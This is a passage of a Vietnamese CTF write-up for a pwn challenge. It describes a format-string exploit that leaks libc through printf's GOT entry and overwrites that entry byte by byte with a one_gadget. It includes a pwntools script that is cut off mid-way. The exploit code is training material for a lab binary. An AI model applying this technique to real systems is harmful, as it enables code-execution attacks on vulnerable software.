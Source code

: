 ![image](https://hackmd.io/_uploads/Byke42ZVJg.png)

tuy nhiên nếu ghi giá trị bằng system thì cần setup lại tham số , ta có thể điều khiển được tham số của printf , tuy nhiên sau khi sử dụng bug này xong thì nó sẽ quay lại và sử dụng printf khá nhiều nên có thể gặp lỗi nên mình chuyển sang dùng one_gadget 

- ta sẽ ghi từng byte một vì nếu ghi 2 byte 1 lúc thì hàm check sẽ chặn điều này , và cũng cần bruteforce 

- vì 1 byte cuối của one_gadget sẽ không thay đổi -> ta có thể lấy byte này làm chuẩn để bruteforce , setup logic sau cho chính xác 
- script mình dùng thì giá trị 67 (0x43) sẽ luôn giữ , nhưng vì giá trị cho phép <57 nên ta phải trừ nó đi và setup sau cho hợp lý 

vd : từng byte sẽ là thế này thì ta phải setup sau cho số byte nó ghi được phải bé hơn 57 và thằng tiếp theo trừ đi thằng kế tiếp cũng phải <57


![image](https://hackmd.io/_uploads/BkTLBn-Vye.png)

nói chung cách này khá củ chuối và tốn time nên khuyến khích không làm theo 


- ta sử dụng hàm sorted để nó có thể lấy các giá trị hợp lý từ bé đến cao

script : 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process()
#p = remote('reverb.chal.wwctf.com', 1337)
#gdb.attach(p,gdbscript='''
#           b*0x0000000000401484
#           ''')

payload = b'%11$saaa'
payload += p64(exe.got.printf)
p.sendline(payload)
p.recvuntil(b'>> ')

printf_ = u64(p.recv(6).ljust(8,b'\x00'))
libc.address = printf_ - libc.sym.printf
print("libc: " + hex(libc.address))
one_gadget = 0xebd43 + libc.address
system_1  = one_gadget & 0xff
system_2 = one_gadget >> 8 & 0xff
system_3 = one_gadget >> 16 & 0xff

package = {
        system_1: exe.got.printf,
        system_2: exe.got.printf+1,
        system_3: exe.got.printf+2,
        }
sort = sorted(package)
print(sort)
print(sort[1]-sort[0])
print(sort[2]-sort[0]-sort[1])
log.info(f"system: {hex(one_gadget)}")
if(sort[0] == 67):
```